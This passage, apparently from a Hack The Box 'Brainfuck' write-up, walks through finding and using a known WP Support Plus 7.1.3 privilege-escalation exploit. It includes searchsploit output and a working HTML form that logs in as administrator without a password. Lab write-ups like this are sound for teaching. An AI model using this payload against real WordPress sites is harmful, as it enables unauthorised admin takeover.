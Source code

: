 ```bash
$ searchsploit wordpress support plus 7.1.3
--------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                         |  Path
--------------------------------------------------------------------------------------- ---------------------------------
WordPress Plugin WP Support Plus Responsive Ticket System 7.1.3 - Privilege Escalation | php/webapps/41006.txt
WordPress Plugin WP Support Plus Responsive Ticket System 7.1.3 - SQL Injection        | php/webapps/40939.txt
--------------------------------------------------------------------------------------- ---------------------------------
```

The "Privilege Escalation" vulnerability would allow us to login as anyone without knowing the password, so lets use that.

```bash
$ searchsploit -m 41006                     
  Exploit: WordPress Plugin WP Support Plus Responsive Ticket System 7.1.3 - Privilege Escalation
      URL: https://www.exploit-db.com/exploits/41006
     Path: /usr/share/exploitdb/exploits/php/webapps/41006.txt
File Type: ASCII text, with CRLF line terminators

Copied to: /home/kali/Desktop/htb/brainfuck/41006.txt

```

# Exploitation (1)

```

$ cat exploit.html
<form method="post" action="https://brainfuck.htb/wp-admin/admin-ajax.php">
        Username: <input type="text" name="username" value="administrator">
        <input type="hidden" name="email" value="sth">
        <input type="hidden" name="action" value="loginGuestFacebook">
        <input type="submit" value="Login">
</form>
```

Now, to use it, we just need to open the page with `firefox` and hit `Login`.

```bash
$ firefox exploit.html
```

![](/assets/images/brainfuck2.png)

Now, if we go to `https://brainfuck.htb/wp-admin/`, we have managed to login as `administrator`!
